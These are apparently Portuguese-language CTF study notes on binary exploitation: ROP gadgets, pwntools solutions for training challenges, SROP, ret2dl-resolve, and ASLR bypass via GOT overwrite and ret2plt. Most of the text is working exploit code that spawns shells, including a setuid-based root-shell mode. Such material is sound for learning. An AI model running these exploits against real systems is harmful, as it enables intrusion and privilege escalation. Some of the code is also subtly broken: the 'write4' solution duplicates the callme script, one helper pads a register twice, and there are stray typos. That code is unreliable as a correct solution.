ret
Gadgets normalmente nao sao exatamente o que a gente precisa, então as vezes precisamos ocupar a stack com "lixinho" para compensar!
Sim... esse e o nome técnico correto! E nao tem argumento que me va me convencer do contrario!
def write_byte(what, where);
temp = b"" # Lixo # Util
temp += gadget_pop_rdi
temp += p64(where) # rdi
temp += gadget_pop_rax
temp += b"A"*8 # r13
temp += p64(what) # rax
temp += b"B"*8 # r12
temp += gadget_mov_rdi_al # mov [rdi] al
temp += b"C"*8 # r14
return temp
E nos poderíamos usar assim:
payload = b'A'*40
data_seg = 0x00601028
for c in b"/bin/sh\x00":
payload += write_byte(c, data_seg)
data_seg += 1
payload += gadget_pop_rdi
payload += p64(0x00601028) # data_seg inicial: pointer para /bin/sh
payload += p64(libc.sym.system)
Write - Something - Where
Voce escreve alguma coisa (voce nao controla) em algum lugar (voce controla)
o mov [rdi] al poderia ser substituído por:
mov [rdi] 0x7f 1e 1f 60 00 00 00 00
Assim, podemos escrever esse valor fixo, em um endereço que nos controlamos!
Pode util ser em ROP chains caso voce possua um modificador.
Uma fonte comum desse primitivo sao unlinks parciais no heap (unsorted bins attack)
Modificador
add, xor, sub, .... todas essas instruções nos permitem alterar os bytes que ja estão na memoria!
E similar aos writes, a quantidade de controle que possuímos pode variar!
pop rdx; add [rdx] 0x02; Somente controlamos o endereço!
Caso tenhamos um xor, a situação ideal seria a memoria = 0xff
Caso seja um add, e a memoria 0x00, nos possuímos um write super simples!
E assim por diante!
Incomuns
Existem outros primitivos que sao mais raros, então somente irei explicar
quando for util. Por exemplo o write refletido: explicado no
tutorial de unsafe unlink!
Porem vou colocar os links aqui caso voce esteja procurando por algum especifico! :D
Dicas
Valores pre modificados
Similar ao lixinho para os pops, e eu nao sabia aonde colocar! hehe :D
As vezes, um gadget muito util acaba tendo efeito colateral nos nossos valores!
Por exemplo, vamos supor que somente exista um gadget que nos permita alterar rdi!
gadget_rdi:
pop rdi
add rdi 0x1234
ret
gadget_pop_rax:
pop r13
pop rax
pop r12
xor r13 r12
ret
gadget_mov_rdi_al:
mov [rdi] al
pop r14
ret
Os outros gadgets estão inalterados!
def write_byte(what, where);
temp = b"" # Lixo # Util
temp += gadget_pop_rdi
temp += p64(where - 0x1234) # rdi
temp += gadget_pop_rax
temp += b"A"*8 # r13
temp += p64(what) # rax
temp += b"B"*8 # r12
temp += b"B"*8 # r12
temp += gadget_mov_rdi_al # mov [rdi] al
temp += b"C"*8 # r14
return temp
Alinhamento da stack
Voce precisa garantir o alinhamento da stack de acordo com a arquitetura:
- x86 -> 4 bytes -> p32()
- x86_64 -> 8 bytes -> p64()
Mesmo que o valor seja so um byte, voce precisa garantir o alinhamento da
stack! Pois o pop vai retirar 4 ou 8 bytes independentemente! Assim,
estragando o endereço do proximo gadget na chain!
Caso o bytes va para al, p64(0x41) ja basta!
Mas caso o valor para al voce precisa fazer p64(0x4100) ou b"\x00"*7 + b"\x41" + b"\x00"
Aqui tao minhas solucoes, em breve vou escrever um tutorial, mas por enquanto e isso :(
sha256
E as sha256 pq eu percebi q os desafios foram alterados com o passar do tempo
$ sha256sum 0-ret2win/ret2win 1-split/split 1-split/split 2-callme/callme 3-write4/write4 4-badchars/badchars 5-fluff/fluff
824893a58502620cbfe8bce7d362cf96b5eb484b78291b1371fd7a2b8086c1d6 0-ret2win/ret2win
bf9af5d3618c33c800f577065a4773fb12b6e88390552dd766efa013ebad40f9 1-split/split
bf9af5d3618c33c800f577065a4773fb12b6e88390552dd766efa013ebad40f9 1-split/split
38b3aac5f11e673ecfbe344f9330d7dfa7d6921be506a948ab9d0347af756acb 2-callme/callme
15c9fc1d4dff1874633caebd212d4990243b072f9352baa23daf07f39a93f8cd 3-write4/write4
5308289f3937a34e4c5eac818e394217f5f22c6f21fbb0f6dc6b8e3f771deb8b 4-badchars/badchars
e5335795104d861dc5e54c8734e090f1c7dfd5b642e4607c2747aed7529c724d 5-fluff/fluff
ret2win
O programa fala o tamanho ate o RIP (40), e você pode usar o truque mencionado
no enunciado para testar.
Ai é só usar objdump | grep ret2win para pegar o endereço
python3 -c "print('A'*40+'\x56\x07\x40',end='')" |./ret2win
Truque pra tirar a newline (se não, não funciona)
split
#!/usr/bin/python3
from pwn import *
# sys arg on RDI
# https://godbolt.org/z/691asM
#gadgets
system = p64(0x40074b)
# gdb> print system: 0x400560
# That one is a addr to call_system (usefulFunction)
# ROPgadget or ropium
pop_rdi_ret = p64(0x4007c3)
# strings
# rabin -z or r2> iz
ls = p64(0x0040084a)
cat = p64(0x00601060)
buf = b'A'*40 # Pad
# buf += p64(0x00400742)
# usefulFunction -> test offset
buf += pop_rdi_ret
buf += cat
buf += system
binary = ELF("./split")
io = process(binary.path)
io.recvuntil("> ")
io.sendline(buf)
io.recvuntil("!\n")
log.success(io.recvuntil("}"))
io.close()k
callme
#!/usr/bin/python3
from pwn import *
# Strings
args = p64(0xdeadbeefdeadbeef)
args += p64(0xcafebabecafebabe)
args += p64(0xd00df00dd00df00d)
# Gadgets
useful = p64(0x000000000040093c)
# pop rdi, rsi, rdx
# calling convention:
# rdi rsi rdx rcx
# Funcs (gdb print)
callone = p64(0x7ffff7dc881a)
calltwo = p64(0x7ffff7dc892b)
callthree = p64(0x7ffff7dc8a2d)
payload = b'A'*40
for func in [callone, calltwo, callthree]:
payload += useful
payload += args
payload += func
binary = ELF("./callme")
io = process(binary.path)
io.recvuntil("> ")
io.sendline(payload)
io.recvuntil("!\n")
log.success(io.recv(512))
io.close()
write4
#!/usr/bin/python3
from pwn import *
# Strings
args = p64(0xdeadbeefdeadbeef)
args += p64(0xcafebabecafebabe)
args += p64(0xd00df00dd00df00d)
# Gadgets
useful = p64(0x000000000040093c)
# pop rdi, rsi, rdx
# calling convention:
# rdi rsi rdx rcx
# Funcs (gdb print)
callone = p64(0x7ffff7dc881a)
calltwo = p64(0x7ffff7dc892b)
callthree = p64(0x7ffff7dc8a2d)
payload = b'A'*40
for func in [callone, calltwo, callthree]:
payload += useful
payload += args
payload += func
binary = ELF("./callme")
io = process(binary.path)
io.recvuntil("> ")
io.sendline(payload)
io.recvuntil("!\n")
log.success(io.recv(512))
io.close()
badchars
#!/usr/bin/python3
from pwn import *
binary = ELF("./badchars")
io = process(binary.path)
io.recvuntil("> ")
# But on data+6 there is a bad byte on the addr
# Because we wouldnt be able to fix the bad byte if the addr was also bad, we do a +3
# Other solutions:
# If we had a-> add [REG+123whatever] 123whatever
# or walking with inc-> REG=data_seg; 6*(inc REG); add [reg] 122whatever
# maybe ret2csu?
# Gadgets (usefulGadgets + ropper --file badchars -b 7867612e)
write8_r13_r12 = p64(0x0000000000400634)
pop_r12_r13 = p64(0x000000000040069c) # r12 r13 r14 r15
pop_rdi = p64(0x00000000004006a3)
pop_r14_r15 = p64(0x00000000004006a0)
sub1_r15_r14b = p64(0x0000000000400630)
bad = [ord('x'), ord('g'), ord('a'), ord('.')]
data_seg = 0x00601028 +3
# Funcs
def arbwrite8(addr, val):
temp = pop_r12_r13 +val +p64(addr)
temp += b'B'*16 # fill r14 r15
return temp + write8_r13_r12
def arbsub1(addr, val): return pop_r14_r15 +val*8 +p64(addr) +sub1_r15_r14b
# Initial write
payload = b'A'*40
payload += arbwrite8(data_seg, b"\xff/fl\xff\xff\xfft") # FF as placeholder
payload += arbwrite8(data_seg+8, b"\xfft"+b'\x00'*6)
# Fix bad bytes
payload += arbsub1(data_seg+0, b'\xd1') # .
# /
# f
# l
payload += arbsub1(data_seg+4, b'\x9e') # a
payload += arbsub1(data_seg+5, b'\x98') # g
payload += arbsub1(data_seg+6, b'\xd1') # . # addr contains bad char w/o shift
# t
payload += arbsub1(data_seg+8, b'\x87') # x
# t
# Load pointer and call print_file
payload += pop_rdi
payload += p64(data_seg)
payload += p64(io.elf.plt['print_file'])
io.sendline(payload)
io.recvuntil("!\n")
log.success(io.recv(512))
io.close()
fluff
#!/usr/bin/python3
from pwn import *
# https://www.felixcloutier.com/x86/xlat:xlatb
# https://www.tutorialspoint.com/assembly_programming/assembly_stos_instruction.htm
# https://www.felixcloutier.com/x86/bextr
binary = ELF("./fluff")
io = process(binary.path)
io.recvuntil("> ")
# Gadgets
bextr_rbx = p64(0x000000000040062a)
# pop rdx
# pop rcx
# add rcx,0x3ef2
# bextr rbx,rcx,rdx
xlat_al_rbx = p64(0x0000000000400628)
# Set AL to memory byte [RBX + unsigned AL].
pop_rdi = p64(0x00000000004006a3)
stosb_rdi_al = p64(0x0000000000400639)
# funcs
def mov_rbx(val):
rcx = p64(val - 0x3ef2)
rdx = p64(0x4000)
# [0, 1, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0]
# | | |
# 16 num_bits=64 7 start_bit=0 0
# bextr will copy 64 bits from rcx,
# starting on bit 0. Then save it on rbx
return bextr_rbx +rdx +rcx
payload = b'A'*40
al = 0xb # al starts = 0xb
data_seg = 0x00601028
for c in b"flag.txt":
# Load char to al
b = next(binary.search(c)) - al
payload += mov_rbx(b)
payload += xlat_al_rbx
al = c
# Load addr to rdi
payload += pop_rdi
payload += p64(data_seg)
data_seg += 1
# write
payload += stosb_rdi_al
payload += pop_rdi
payload += p64(0x00601028)
payload += p64(io.elf.plt['print_file'])
io.sendline(payload)
io.recvuntil("!\n")
log.success(io.recv(512))
io.close()
Pivot
3d3523f651e7730be0c7c2347ab109dd0842dc29cec3d5fe0c868afc6803026c pivot
8de035bdc097b881c2118c09ce995b78f49019582cfe6e1b3a584dbebe1c3481 libpivot.so
#!/usr/bin/python3
from pwn import *
from time import sleep
# --------------------------------------------------
# Inicializar
# --------------------------------------------------
if args.LOG: context.log_level = "info"
else : context.log_level = "critical"
binary = ELF("pivot")
libc = binary.libc
io = process(binary.path)
io.recvuntil("pivot: ")
leak = int(io.recv(14)[2::],16)
log.info("Leak: "+hex(leak))
io.recvuntil("> ")
# --------------------------------------------------
# Gadgets
# --------------------------------------------------
# Misc
pop_rdi = p64(0x0000000000400a33)
pop_rax = p64(0x00000000004009bb)
pop_rbp = p64(0x00000000004007c8)
add_rax_rbp = p64(0x00000000004009c4)
pop_rsi_r15 = p64(0x0000000000400a31)
# Pivot
xchg_rsp = p64(0x00000000004009bd) # xchg rax, rsp; ret;
# Read
mov_eax_rax = p64(0x00000000004009c1) # mov eax, dword ptr [rax]; ret;
# Exec
call_rax = p64(0x00000000004006b0) # call rax; depois coloca um lixin p64
pop_r12_13_14_15 = p64(0x0000000000400a2c)
one_gadget = 0xcbd1a
# 0xcbd1a execve("/bin/sh", r12, r13)
# constraints:
# [r12] == NULL || r12 == NULL
# [r13] == NULL || r13 == NULL
# --------------------------------------------------
# Primeira Fase
# --------------------------------------------------
fase1 = b""
fase1 += b"B"*40
fase1 += pop_rax
fase1 += p64(leak) # leak == fase2
fase1 += xchg_rsp # rsp == fase2
# Entao, caso coloquemos uma ROP chain no leak, ela sera executada
# --------------------------------------------------
# Segunda Fase
# --------------------------------------------------
def get_shell():
fase2 = b''
# Ler a got de puts
fase2 += pop_rax
fase2 += p64(binary.got.puts)
fase2 += mov_eax_rax # mov eax [rax]
# agora temos o FINAL de puts em rax
# inicio do puts == ao do leak
# Entao podemos calcular o resto dele a partir do leak
# leak = 0x7fb5 27 4a 9f 10
# final = 0x 27 52 45 f0
# (leak >> 4*8 << 4*8) + final_puts == puts
# 0x7fb500000000 + final_puts = 0x7fb5275245f0 (puts)
# calcular o endereco do one_gadget usando puts como referencia
fase2 += pop_rbp
fase2 += p64( (leak >> 4*8 << 4*8) - (libc.sym.puts - one_gadget) )
fase2 += add_rax_rbp
# lembrete: libc.sym e um offset dentro do libc (e o one_gadget tambem)
# one gadget constraints r12 r13 == NULL
fase2 += pop_r12_13_14_15
fase2 += p64(0)*4
fase2 += call_rax
return fase2
def privesc():
setuid = b''
# Ler a got de puts
setuid += pop_rax
setuid += p64(binary.got.puts)
setuid += mov_eax_rax # mov eax [rax]
# calcular o endereco de setuid usando puts como referencia
setuid += pop_rbp
setuid += p64( (leak >> 4*8 << 4*8) - (libc.sym.puts - libc.sym.setuid) )
setuid += add_rax_rbp
setuid += pop_rdi
setuid += p64(0)
setuid += call_rax
setuid += p64(0)
return setuid
def foothold():
libpivot = ELF("libpivot.so")
# Executar foothold_function para popular o got
challenge = b''
challenge += pop_rax
challenge += p64(binary.plt.foothold_function)
challenge += call_rax
challenge += p64(0)
# Ler a got de foothold_function
challenge += pop_rax
challenge += p64(binary.got.foothold_function)
challenge += mov_eax_rax # mov eax [rax]
# calcular o endereco de ret2win usando foothold como referencia
challenge += pop_rbp
challenge += p64( (leak >> 4*8 << 4*8) - (libpivot.sym.foothold_function - libpivot.sym.ret2win) )
challenge += add_rax_rbp
challenge += call_rax
challenge += p64(0)
return challenge
# --------------------------------------------------
# :D
# --------------------------------------------------
log.critical('''
ARGV modos:
SHELL - shell
PRIV - root shell
CTF - print flag
ARGV debug:
SLEEP - 5 seg
LOG - log verboso
''')
if args.SLEEP: sleep(5)
if args.CTF:
fase2 = foothold()
elif args.PRIV:
fase2 = privesc() + get_shell()
elif args.SHELL:
fase2 = get_shell()
else:
log.critical("Por favor, selecione um modo")
quit()
io.sendline(fase2)
io.recvuntil("> ")
io.sendline(fase1)
if args.CTF:
io.recvuntil("libpivot\n")
log.critical(io.recv(128))
else:
io.recvuntil("!\n")
io.interactive()
SROP
Teoria
Essa técnica que permite voce tornar a stack executável com somente 2 gadgets!
A técnica depende da maneira como sistemas UNIX cuidam dos seus processos!
Caso voce precise de uma revisão em mprotect + ret2shellcode :D
Processos e Signals
Sigreturn
Quando o processo e interrompido, o kernel cria um stack frame
para o signal handler (independentemente de padrão, ou
implementado pelo programa)... Semelhantemente a quando ocorre uma
call !
Assim como em funções (aonde os registers non-scratch precisam
ser salvos), para criar o signal handler antes precisamos salvar
o estado atual usando um struct sigreturn context !


Para retornar, o signal handler nao pode usar um simples ret,
portanto usando a syscall sigreturn (rax = 0xf)
A syscall era consumir o sigreturn context e continuar execução
normalmente!
Pera ai, e se nos criarmos um sigreturn context falso e chamarmos
essa syscall manualmente????? Como se nos fossemos um
signal handler retornando?????
Fake
Para facilitar a criação desse struct, podemos usar o nosso amigo pwntools: pwntools SROP
Criando um struct vazio, e preenchendo-o!
frame = SigreturnFrame(arch="amd64")
frame.rax = 0xa
frame.rsi = 0x10
frame.rdx = 1234
frame.rip = 123
OBS: O struct e dependente da arquitetura, por exemplo, os registers presente num processador ARM sao diferentes de um amd
OBS 2: Voce nao coloca p64() nos valores, se nao buga sei la
Agora, nos somente precisamos de uma chain que chame sigreturn
Eu imagino que voce possa chamar o wrapper em libc, mas para chamar a syscall basta executar!
mov rax, 0xf ; 15
syscall ; ou int_80 em 32 bits sei la
Exemplo Sem leaks
Tabela de syscalls linux: filippo.io
Download
Solução
#!/usr/bin/python3
from pwn import *
elf = ELF("small_boi")
io = process(elf.path)
syscall = 0x400180 # mov eax, 0xf; syscall;
# +5 = so a syscall
sig = SigreturnFrame(arch='amd64')
sig.rax = 59 # execve
sig.rip = syscall+5
sig.rdi = next(elf.search(b"/bin/sh\x00"))
payload = b'A'*40 # cyclical_find
payload += p64(syscall)
payload += bytes(sig)
io.sendline(payload)
io.interactive()
Exemplo Com Leaks
srop.c
#include <stdio.h>
#include <stdlib.h>
// gcc srop.c -o srop -no-pie -fno-stack-protector
void syscall_(){
__asm__("syscall; ret;");
}
void set_rax(){
__asm__("movl $0xf, %eax; ret;");
}
int main(){
// ONLY SROP!
char buff[100];
printf("Buff @%p, can you SROP?\n", buff);
read(0, buff, 5000);
return 0;
}
Exploit
#!/usr/bin/python3
from pwn import *
elf = context.binary = ELF("./srop")
io = process(elf.path)
io.recvuntil('@')
stack_leak = int(io.recv(14),16)
log.info("Stack Leak: " + hex(stack_leak))
io.recvuntil("?\n")
# Pular Func Prologo
elf.sym.syscall_ += 4
# pwndbg> disassemble syscall_
# Dump of assembler code for function syscall_:
# 0x0000000000401132 <+0>: push rbp
# 0x0000000000401133 <+1>: mov rbp,rsp
# 0x0000000000401136 <+4>: syscall
# 0x0000000000401138 <+6>: ret
# 0x0000000000401139 <+7>: nop
# 0x000000000040113a <+8>: pop rbp
# 0x000000000040113b <+9>: ret
elf.sym.set_rax += 4
# pwndbg> disassemble set_rax
# Dump of assembler code for function set_rax:
# 0x000000000040113c <+0>: push rbp
# 0x000000000040113d <+1>: mov rbp,rsp
# 0x0000000000401140 <+4>: mov eax,0xf
# 0x0000000000401145 <+9>: ret
# 0x0000000000401146 <+10>: nop
# 0x0000000000401147 <+11>: pop rbp
# 0x0000000000401148 <+12>: ret
payload = b""
payload += asm(shellcraft.execve("/bin/sh\x00"))
payload += b"A"*(120 - len(payload))
payload += p64(elf.sym.set_rax)
payload += p64(elf.sym.syscall_) # sigreturn syscall
frame = SigreturnFrame(arch="amd64")
frame.rax = 0xa # mprotect syscall
frame.rdi = (stack_leak >> 12) << 12 # Addr
frame.rsi = 0x21000 # Size
frame.rdx = 7 # Perms
frame.rip = elf.sym.syscall_ # syscall (mrprotect); Ret
frame.rsp = stack_leak + len(payload) + len(frame) # ret addr
# \\
payload += bytes(frame) # \\
payload += p64(stack_leak) # <------------
#
# stack_leak ---> shellcode
io.sendline(payload)
io.interactive()
Ret2dl-resolve
Nos ja sabemos que, quando o programa usa uma função do libc, ela terá uma entrada na plt, que somente quando usada sera preenchida na got...
Mas e se o programa nao usar uma função, existe algum jeito de resolve-la?
Teoria
A section .dynamic contem os dados usados para que ld.so
resolva os símbolos... Voce pode ve-la usando readelf -d
$ readelf -d /bin/ls
Dynamic section at offset 0x21a58 contains 28 entries:
Tag Type Name/Value
0x0000000000000001 (NEEDED) Shared library: [libselinux.so.1]
0x0000000000000001 (NEEDED) Shared library: [libc.so.6]
0x000000000000000c (INIT) 0x4000
0x000000000000000d (FINI) 0x17574
0x0000000000000019 (INIT_ARRAY) 0x22010
0x000000000000001b (INIT_ARRAYSZ) 8 (bytes)
0x000000000000001a (FINI_ARRAY) 0x22018
0x000000000000001c (FINI_ARRAYSZ) 8 (bytes)
0x000000006ffffef5 (GNU_HASH) 0x3a0
0x0000000000000005 (STRTAB) 0x1190
0x0000000000000006 (SYMTAB) 0x488
0x000000000000000a (STRSZ) 1612 (bytes)
0x000000000000000b (SYMENT) 24 (bytes)
0x0000000000000015 (DEBUG) 0x0
0x0000000000000003 (PLTGOT) 0x22c58
0x0000000000000002 (PLTRELSZ) 2544 (bytes)
0x0000000000000014 (PLTREL) RELA
0x0000000000000017 (JMPREL) 0x2cb8
0x0000000000000007 (RELA) 0x1968
0x0000000000000008 (RELASZ) 4944 (bytes)
0x0000000000000009 (RELAENT) 24 (bytes)
0x000000000000001e (FLAGS) BIND_NOW
0x000000006ffffffb (FLAGS_1) Flags: NOW PIE
0x000000006ffffffe (VERNEED) 0x18f8
0x000000006fffffff (VERNEEDNUM) 1
0x000000006ffffff0 (VERSYM) 0x17dc
0x000000006ffffff9 (RELACOUNT) 193
0x0000000000000000 (NULL) 0x0
Porem para essa tecnica so precisamos de 3: STRTAB, SYMTAB, JMPREL
JMPREL
JMPREL (.rel.plt) contem a Relocation Table. A qual contem o
endereco dos simbolos realocados. Ela pode ser lida com
readelf -r
Com Sym.Name sendo o nome, Offset o endereco na GOT, e
Info e Type sendo mais alguns metadados
# readelf -r ./babystack
Relocation section '.rel.dyn' at offset 0x2a8 contains 1 entries:
Offset Info Type Sym.Value Sym. Name
08049ffc 00000306 R_386_GLOB_DAT 00000000 __gmon_start__
Relocation section '.rel.plt' at offset 0x2b0 contains 3 entries:
Offset Info Type Sym.Value Sym. Name
0804a00c 00000107 R_386_JUMP_SLOT 00000000 read@GLIBC_2.0
0804a010 00000207 R_386_JUMP_SLOT 00000000 alarm@GLIBC_2.0
0804a014 00000407 R_386_JUMP_SLOT 00000000 __libc_start_main@GLIBC_2.0
O tipo das entradas é ELF32_Re1
typedef uint32_t Elf32_Addr ;
typedef uint32_t Elf32_Word ;
typedef struct
{
Elf32_Addr r_offset ; /* Address */
Elf32_Word r_info ; /* Relocation type and symbol index */
} Elf32_Rel ;
#define ELF32_R_SYM(val) ((val) >> 8)
#define ELF32_R_TYPE(val) ((val) & 0xff)
Por exemplo para:
Offset Info Type Sym.Value Sym. Name
0804a00c 00000107 R_386_JUMP_SLOT 00000000 read@GLIBC_2.0
- ELF32_R_SYM(r_info) == 1
- 0x0107 >> 8 == 1
- ELF32_R_TYPE(r_info) == 7 (R_386_JUMP_SLOT)
- 0x0107 && 0xff = 0x0007
STRTAB
STRTAB é uma table que armazena as strings para os nomes dos símbolos
gdb> x/10s 0x804822c # Endereço STRTAB
0x804822c: ""
0x804822d: "libc.so.6"
0x8048237: "_IO_stdin_used"
0x8048246: "read"
0x804824b: "alarm"
0x8048251: "__libc_start_main"
0x8048263: "__gmon_start__"
0x8048272: "GLIBC_2.0"
SYMTAB
SYMTAB é uma table que armazena ELF32_Sym...
O qual contem st_name: o offset do nome do simbolo dentro da
STRTAB
typedef struct
{
Elf32_Word st_name ; /* Symbol name (string tbl index) */
Elf32_Addr st_value ; /* Symbol value */
Elf32_Word st_size ; /* Symbol size */
unsigned char st_info ; /* Symbol type and binding */
unsigned char st_other ; /* Symbol visibility under glibc>=2.2 */
Elf32_Section st_shndx ; /* Section index */
} Elf32_Sym ;
st_name é o primeiro membro do struct
Nos podemos saber qual o index do nosso simbolo na SYMTAB,
usando a macro ELF32_R_SYM
Exemplo
Portanto:
- JMPREL - r_value (que vira o index na SYMTAB), endereço na GOT
- STRTAB - Armazena os nomes
- SYMTAB - pointer para o nome na STRTAB
Por exemplo para a seguinte entrada na JMPREL:
Offset Info Type Sym.Value Sym. Name
0804a00c 00000107 R_386_JUMP_SLOT 00000000 read@GLIBC_2.0
- ELF32_R_SYM(r_info) == 1
- 0x0107 >> 8 == 1
- ELF32_R_TYPE(r_info) == 7 (R_386_JUMP_SLOT)
- 0x0107 && 0xff = 0x0007
O R_SYM (1) é o offset da entrada no simbolo na table SYMTAB, que pode ser usado:
0x80481cc + 1 * 16
SYMTAB + index * sizeof(entry))
Checando esse endereço, nos temos o struct referente a
aquele simbolo, e portanto no mesmo endereço o st_name
Vamos supor que nesse caso, st_name = 0x1a
Agora podemos ver o nome do simbolo no STRTAB
x/s 0x804822c + 0x1a
STRTAB + st_name
0x8048246: "read"
_dl_runtime_resolve
Agora, como funciona a resolução de símbolos?
Ver qual a entrada da GOT referente ao simbolo e pular para PLT
read@plt:
jmp DWORD PTR ds:0x804a00c
push 0x0
jmp 0x80482f0
Na PLT, push em reloc_offset e ir para o resolvedor
Agora o resolvedor (dl-resolve()) ira usar o reloc_offset
para preencher as os campos de relocação e na SYMTAB
_dl_runtime_resolve ( link_map , rel_offset );
Com:
link_map = lista com todas as libs carregadas
_dl_runtime_resolve vai usada-las
para resolver os símbolos
rel_offset = Offset de Elf32_Rel na JMPREL
o simbolo sera relocados a função original sera chamada :D
// call nao resolvida de read(0, buf, 0x100)
_dl_runtime_resolve(link_map, rel_offset) {
// Encontrar na JMPREL usando o offset (type = Elf32_Rel)
rel_entry = JMPREL + rel_offset ;
// Encontrar na SYMTAB usando r_info (type = Elf32_Sym)
sym_entry = &SYMTAB [ ELF32_R_SYM ( rel_entry -> r_info )];
// Encontrar nome na STRTAB usando st_name (type = char* / string)
sym_name = STRTAB + sym_entry -> st_name ;
// Usar o nome para encontrar o simbolo na lista de libs
_search_for_symbol_(link_map, sym_name);
// call read, ja que o simbolo foi resolvido
read(0, buf, 0x100);
}
Exploit
Nos podemos usar o helper do pwntools para facilmente gerar as tables com offsets corretos e tudo mais. Caso vc tenha curiosidade, pode ler a proxima seção ...
Porem, no pwntools podemos automar isso usando:
elf = ELF('./vuln')
io = process(elf.path)
rop = ROP(elf)
payload = Ret2dlresolvePayload(
elf,
symbol='system',
args=['/bin/sh']
)
rop.raw('A' * pad)
rop.read(0, dlresolve.data_addr) # criar tables falsas
rop.ret2dlresolve(dlresolve) # chamar dl-resolve() com reloc_offset falso
io.sendline(rop.chain()) # A chain vai chamar read de novo, para enviar as tables
io.sendline(dlresolve.payload)
io.interactive()
Manual
CTFs
Fontes e créditos
- https://gist.github.com/ricardo2197/8c7f6f5b8950ed6771c1cd3a116f7e62#5-_dl_runtime_resolve
- https://ir0nstone.gitbook.io/notes/types/stack/ret2dlresolve
- https://ir0nstone.gitbook.io/notes/types/stack/ret2dlresolve/exploitation
Derrotando ASLR
if RELRO != FULL && PIE == OFF && ARCH != 32bits:
corromper_GOT()
if RELRO == FULL && PIE == OFF && ARCH != 32bits:
re2plt()
if RELRO == FULL && PIE == ON && ARCH == 32bits:
bruteforce()
else:
desistir() # =(
se alguem falar "blablabla elif" eu juro que eu vou cometer um crime >:(
Corromper GOT
Voce provavelmente ja conhece essa técnica, visto que eu usei ela em ROP!
Mas resumindo, a GOT armazena o endereço das funções, se voce corromper um item da GOT, quando o programa-lo, vai redirecionar para a função que voce escolheu.
Porem no contexto de ASLR, nao podemos so botar o endereço de system, pq ne.... ASLR!!!
Então, nos podemos fazer um overwrite parcial!
Dependendo da arquitetura e sistema operacional isso pode variar, porem:
7f ff ff xx xx xx 12 34
| Prefixo | Parte com | Nosso |
| SEM ASLR | ASLR | ALVO |
Assim, se corrompermos so os LSBs, podemos ignorar a parte do ASLR...
puts: 7f ff ff xx xx xx 10 00 -| offset constante
system: 7f ff ff xx xx xx 12 34 -| entre elas 0x234
puts: 7f ff ff 11 3c 4c 10 00 -| 0x234
system: 7f ff ff 11 3c 4c 12 34 -|
puts: 7f ff ff 4c 1d 42 10 00 -| 0x234
system: 7f ff ff 4c 1d 42 12 34 -|
Assim, se adicionarmos ao puts o offset entre ele e system... Usando por exemplo, um gadget
add [rbx] al
Isso também pode ser usado no valor armazenado para o ret em BoFs tradicionais! Caso a função
tenha sido chamada pelo libc!
Obs: Dependendo da vuln, voce usa tipos de offsets diferentes
- Write -> offset = System - Base_Libc
- Add -> offset = System - puts # Ou qualquer outra função
Exemplo
Vamos supor que temos um add-what-where -> Ex: add [rbx] al;ret;
elf = ELF("vuln123")
libc = elf.libc
got = elf.got.puts # Endereço de Puts na got
got += 7 # Queremos alterar somente os bytes 7 e 8
# Lembrando que isso depende, em alguma outra
# Pode ser 6 7 8, etc etc....
offset = libc.sym.system - libc.sym.puts
payload = vuln_add(got, offset)
payload += elf.plt.puts # Chamar Puts por meio da plt
io.interactive()
Teoria
Vale a pena revisar GOT e PLT caso precise
Resumo:
-
A GOT armazena o endereço da funcao apos ser resolvida!
-
Quando nos chamamos uma funcao do libc, nao estamos chamando elas diretamente, e sim a sua entrada na PLT.
-
A PLT checa a GOT, caso o endereço ja tenha sido resolvido,
jmpla... caso o endereço ainda nao tenha sido, coordena comld.sopara resolver!
A técnica ret2plt pode ser considerada o ret2libc do mundo com ASLR!
Da mesma maneira que podíamos retornar para o libc quando o NX foi ativado, agora podemos voltar para a PLT!
Podemos fazer isso pois a PLT (e GOT) nao tem seu endereço alterado pelo ASLR, somente por PIE!
Nos poderíamos usar isso para, por exemplo, chamar system() ... mas existe uma alternativa mais divertida!
Puts Puts Puts
Nos podemos ler a GOT de uma funcao JA RESOLVIDA, e calcular o endereço da base do libc, ja que as funções estão a um offset constante!
Tendo o endereço base do libc, podemos chamar quantas funções quisermos, mesmo que nao tenham sido usadas originalmente pelo programa!
Para fazer isso, vamos usar puts: printa uma string pro terminal!
Vamos passar entrada para puts na got, assim: puts vai printar o endereço resolvido de puts
Em seguida, nos chamamos main (ou a funcao vulnerável) e executamos o BoF de novo, so que agora que a base do libc, podemos usar todo o seu potencial
Em x86_64 bits nos podemos fazer:
pop_rdi_gadget
got.puts
plt.puts -> rdi = primeiro arg, e rdi aponta para
a got com o endereço resolvido de puts
main
E em x86 bits:
plt.puts
main
got.puts
Para calcular a base do libc a partir desse leak, basta fazer:
leak = int(recv(), 16)
libc.address = leak - libc.sym.puts
libc.sym.* Armazena o offset dentro daquela versão do libc, isto e:
puts = base + 0x1234, exit = base + 0x4321, system = base + offset, etc...
Portanto, com leak = puts -> leak = base + 0x1234
-> base = leak - 0x1234 -> base = leak - offset
Agora, basta criar outra payload e enviar o BoF de novo, so que com: setuid + conexão remota + system + exit
Ou o que raios a sua imaginação bolar :D
Exemplo
vuln.c
#include <stdio.h>
/*
gcc vuln.c -fno-stack-protector -no-pie -ggdb -z relro -z now -o vuln ;
sudo chown root vuln ;
sudo chmod +s vuln ;
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space ;
checksec vuln ;
*/
/*
O checksec deve dar:
Arch: amd64-64-little
RELRO: Full RELRO
Stack: No canary found
NX: NX enabled
PIE: No PIE (0x400000)
*/
void vuln() {
puts("Ola :D ! Qual o seu nome?");
char buffer[20];
gets(buffer);
}
int main() {
vuln();
return 0;
}
exploit
#!/usr/bin/python3
from pwn import *
from time import sleep
context.binary = elf = ELF("vuln")
libc = elf.libc
rop = ROP(elf)
io = process(elf.path)
io.recvline()
if args.SLEEP: sleep(5)
##################################################
#
# A plt nao tem seu endereco afetado pelo ASLR
#
# Entao podemos chamar uma funcao do libc por
# meio dela, sem precisar de leak
#
# Assim, vamos chamar puts por meio da plt!
#
# Alem disso, a got tambem nao e afetada,
# e ela armazena o endereco das funcoes resolvidas
#
# E oq o puts vai printar? um valor da got!
# Assim, nos dando o leak do libc
#
##################################################
payload = b'A'*40 + flat(
rop.find_gadget(['pop rdi', 'ret']).address,
elf.got.puts,
elf.plt.puts, # call puts("got.puts")
elf.sym.vuln # voltar pra vuln
)
io.sendline(payload)
##################################################
#
# Receber leak
#
##################################################
libc.address = int(bytearray(
io.recvline()[:-1:])[::-1].hex(),
16) - libc.sym.puts
# >>> leak # Botei um valor qualquer
# b'\xf0\xb5[\x16\xc8\x7f\n'
#
